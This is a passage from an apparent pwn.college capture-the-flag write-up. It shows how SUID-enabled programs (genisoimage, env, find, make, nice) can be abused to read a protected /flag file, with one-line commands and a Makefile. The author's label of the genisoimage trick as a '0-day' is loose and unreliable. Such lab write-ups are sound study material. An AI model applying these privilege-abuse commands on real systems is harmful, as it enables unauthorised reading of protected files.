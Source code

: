 And the answer was...

```bash
genisoimage -sort /flag
```

- side-notes

The exploit here is actually a 0-day vulnerability. I did not actually use the SUID power that `pwn.college` allowed me, but exploited an actual vulnerability that the program originally had. There is a reason why this is outdated!

### level24

This time we are using `env`.

`env` alone will just print out all the environmental variables. However, adding `-i` flag lets me execute a command in an empty environmental. 

```bash
env -i cat /flag
```

### level25

This time we are using `find`.

We can 'find' a specific file with `find`. Not only that, `-exec [COMMAND] {} +` flag allows me to execte the specified command! 

```bash
find -name flag -exec cat {} +
```

### level26

This time we are using `make`.

While most people use `make` to compile, here I will use it to simply run `cat` using the parent SUID power. 

I edit the Makefile to be

```
all:
    cat /flag
```

and simply call

```bash
make
```

### level27

This time we are using `nice`.

Another scheduling program that lets me execute a command in the name of the Almighty. 
